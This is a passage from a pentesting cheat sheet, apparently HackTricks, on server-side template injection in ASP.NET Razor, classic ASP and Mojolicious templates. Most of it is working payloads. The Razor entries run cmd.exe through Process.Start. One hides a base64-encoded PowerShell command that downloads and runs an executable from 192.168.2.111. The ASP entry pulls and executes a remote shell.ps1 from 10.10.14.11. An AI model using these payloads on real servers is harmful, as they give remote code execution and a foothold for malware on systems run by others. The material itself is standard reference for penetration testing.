 
-   `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
    

-   `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`
    
    The .NET `System.Diagnostics.Process.Start` method can be used to start any process on the server and thus create a webshell. You can find a vulnerable webapp example in [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)​
    

**More information**

-   ​[https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)​
    

-   ​[https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)​
    

## 

ASP[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#asp)

-   `<%= 7*7 %>` = 49
    

-   `<%= "foo" %>` = foo
    

-   `<%= foo %>` = Nothing
    

-   `<%= response.write(date()) %>` = <Date>
    

<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/shell.ps1')").StdOut.ReadAll() %>

**More Information**

-   ​[https://www.w3schools.com/asp/asp_examples.asp](https://www.w3schools.com/asp/asp_examples.asp)​
    

## 

Mojolicious (Perl)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mojolicious-perl)

Even if it's perl it uses tags like ERB in Ruby.

-   `<%= 7*7 %> = 49`
    

-   `<%= foobar %> = Error`
    

<%= perl code %>

<% perl code %>
